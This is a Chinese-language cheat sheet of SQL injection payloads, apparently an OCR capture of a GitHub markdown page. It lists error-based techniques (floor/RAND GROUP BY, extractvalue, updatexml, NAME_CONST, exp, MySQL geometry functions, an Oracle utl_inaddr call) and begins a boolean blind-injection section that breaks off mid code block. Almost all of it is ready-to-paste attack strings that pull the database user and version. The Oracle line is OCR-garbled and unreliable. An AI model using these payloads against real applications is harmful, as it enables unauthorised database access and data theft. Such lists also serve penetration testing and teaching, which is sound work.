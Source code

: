 #### 报错注入

- floor   （SELECT user()可修改）

  - OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)--+

- ### ExtractValue(有长度限制,最长32位)   （select @@version可修改）

  - and extractvalue(1, concat(0x7e, (select @@version),0x7e))--+

- ### UpdateXml(有长度限制,最长32位)  （SELECT @@version可修改）

  - and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)--+

- ### NAME_CONST(适用于低版本，不太好用)

  - and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--+

- ### Error based Double Query Injection

  - or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1--+

- ### exp(5.5.5以上) （select user()可修改）

  - and (select exp(~(select * from(select user())x)))--+

- floor(Mysql):  and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

- Extractvalue(Mysql):  and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

- Updatexml(Mysql):  and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

- EXP: and exp(~(select * from(select user())a));

- UTL INADDR. get host address(Oracle): and 1=utl inaddrget host address(select bannerO from sys.v_$version where rownum=1))

- multipoint(Mysql)：and multipoint((select * from(select * from(select user())a)b));

- polygon(Mysql)：and polygon((select * from(select * from(select user())a)b));

- multipolygon(Mysql)：and multipolygon((select * from(select * from(select user())a)b));

- linestring(Mysql)：and linestring((select * from(select * from(select user())a)b));

- multilinestring(Mysql)：and multilinestring((select * from(select * from(select user())a)b));

#### bool盲注

- 盲注的时候一定注意，MySQL4之后大小写不敏感，可使用binary()函数使大小写敏感。

- ##### 布尔条件构造

  - ```sql
    //正常情况
    'or bool#
    true'and bool#
        
    //不使用空格、注释
    'or(bool)='1
    true'and(bool)='1
        